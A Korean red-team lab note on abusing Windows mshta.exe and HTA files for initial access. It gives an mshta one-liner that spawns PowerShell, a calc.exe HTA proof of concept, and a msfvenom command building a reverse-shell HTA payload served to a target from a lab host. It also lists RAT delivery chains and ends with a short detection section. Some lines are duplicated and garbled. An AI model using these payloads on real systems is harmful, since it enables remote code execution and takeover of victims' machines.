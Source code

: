 # HTA

HTA (HTML Application)는 마이크로소프트가 개발한 웹 애플리케이션 프로그래밍 기술이다. HTML, CSS, JavaScript 등의 웹 기술을 사용하여 윈도우 응용 프로그램과 같은 유저 경험을 제공할 수 있다. HTA는 일반적으로 .hta 확장자며 Mshta.exe라는 유틸리티로 실행된다.

Mshta.exe는 네트워크 프록시 인식 방식으로 HTML에 포함된 Windows 스크립트 호스트 코드(VBScript 및 JScript)를 실행할 수 있기 때문에 MS로 서명된 유틸리티를 통해 임의 스크립트 코드 실행을 할 수 있어 공격하기 매력적인! 수단이다.

아래 트윗은 한 레드팀원이 몇일전에 올린 HTA를 관한 초기 침투가 아직도 많이 쓰이고 있다는것을 알수있다.

![](<../../obsidian\_resources/Pasted image 20230501172222.png>)

## 보안적인 측면

일단 HTA는 Java applet 이나 액티브X 컨트롤과 같은 기존의 웹 애플리케이션 기술에 비해 보안성과 사용자 경험 측면에서 우수한 성능을 제공할 수 있지만 또한 양날의 검으로 기존 웹 앱과는 다르게 로컬 파일 시스템이나 레지스트리 같은 거에 직접 액세스할 수도 있기 때문에더 많은 권한을 가질 수 있기 때문에 악의적인 목적으로도 충분히 쓰일 수 있다.

아래 실습 예제는 굉장히 간단히 예제 임으로 "왜 제가 만든 악성 hta 파일이 다운받은 즉시 사라지나요?"와 같은 질문은 하지 말길 바란다. 기본적으로 윈도우 디펜더를 다끄고 진행하고 있기 때문에 아래 실습은 방어 우회를 거의 일체 생각하지 않았다 ^^.

기본적으로 아래 3 항목을 비활성화 한뒤 시작한다.&#x20;

<figure><img src="../../obsidian_resources/Pasted image 20230501202117.png" alt=""><figcaption></figcaption></figure>

Mitre Attack에서도 Mshta 실행을 하나의 테크닉으로 설명하고 있으며 굉장히 많은 APT그룹도 사용하고 있는 것을 알 수 있다.

https://attack.mitre.org/techniques/T1218/005/

일단, 아래와 같이 mshta를 실애하면 powershell.exe 를 실행 Hello GROOT!를 보여준다.

```powershell
mshta.exe "about:<hta:application><script language="VBScript">Close(Execute("CreateObject(""Wscript.Shell"").Run%20""powershell.exe%20-nop%20-Command%20Write-Host%20Hello,%20GROOT!;Start-Sleep%20-Seconds%205"""))</script>'"
```

HTA -> VBScript 코드를 실행할 수 있다는것 자체가 이미 오용되기에 충분한 시나리오다!

![](<../../obsidian\_resources/Pasted image 20230501210226.png>)

## 실습

기본적으로 HTA를 사용한 악성 코드 실행 시나리오는 여러가지가 있을수 있다. 예를들어, 아래와 같은 시나리오를 통해 리버스 쉘을 받아 볼수도 있다.

* LNK -> CMD -> Powershell -> RAT
* ZIP -> Password protected PDF + "password.lnk" -> RAT
* DOCx -> LNK -> remote HTA -> Powershell -> RAT
* 피싱 이메일 -> LOTS를 통한 mediafire/dropbx/github 다운 -> ZIP 파일 -> HTA -> RAT

## 기본 HTA 스크립트 예제제

아래 HTA 스크립트는 Windows에서 calc.exe를 실행한다.

**grootcalc.hta**

var c= 'calc.exe' new ActiveXObject('WScript.Shell').Run(c);

```
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

var c= 'calc.exe' new ActiveXObject('WScript.Shell').Run(c); var c= 'calc.exe' new ActiveXObject('WScript.Shell').Run(c); var c= 'calc.exe' new ActiveXObject('WScript.Shell').Run(c); var c= 'calc.exe' new ActiveXObject('WScript.Shell').Run(c); HTML Application을 통해 계산기가 실행되는 것을 알 수 있다. !\[]\(../../obsidian\_resources/Pasted%20image%2020230501171712.png)

## Metasploit 예제

가장 간단하게 msfvenom을 통해 HTA Payload를 만들어 보자. shell\_reverse\_tcp HTA 페이로드를 만들어 준다.

* LHOST: 칼리 로컬 호스트 로컬 IP
* LPORT: Listener 포트

```
┌──(kali㉿kali)-[~/redteam/HTA/unicorn]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.137.131 LPORT=443 -f hta-psh -o groot.hta
```

공격자는 타겟이 악성 HTA를 다운받을 수 있게 Python HTTP Server를 포트 8080에 만들어 준다.&#x20;

<figure><img src="../../obsidian_resources/Pasted image 20230501175738.png" alt=""><figcaption></figcaption></figure>

브라우저에서 http://192.168.137\[.]131:8080/groot.hta 를 방문하여 파일을 다운받고 실행하면 타겟박스 (윈도우) 쉘을 얻을 수 있다.

![](<../../obsidian\_resources/Pasted image 20230501175551.png>)

### 대응 방안

* CMD에서 실행되는 난독화된 스크립트를 실행하는 mshta.exe는 이미 수상하기 때문에 아마 EDR 차원에서 이미 감지를 할수 있다. 또한 mshta.exe 실행 전후 실행도는 Process들을 살펴봐 .hta 파일의 출처와 목적을 확인하는 것이 중요하다.
